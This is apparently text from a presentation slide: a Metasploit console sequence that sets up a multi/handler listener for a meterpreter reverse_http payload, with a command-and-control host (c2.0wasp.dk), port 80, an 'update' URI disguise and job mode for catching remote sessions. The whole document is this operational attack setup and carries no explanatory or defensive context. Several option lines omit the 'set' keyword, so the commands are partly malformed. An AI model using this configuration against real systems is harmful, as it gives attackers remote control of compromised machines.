

# Metasploit handler/reverse shell
msf5 > use exploit/multi/handler
msf5 > set payload multi/meterpreter/reverse_http
msf5 > set LHOST c2.0wasp.dk
msf5 > set LPORT 80
msf5 > set LURI update
msf5 > OverrideRequestHost true
msf5 > ReverseListenerBindAddress 0.0.0.0
msf5 > ReverseListenerBindPort 2000
msf5 > SessionCommunicationTimeout 0
msf5 > ExitOnSession false
msf5 > exploit -j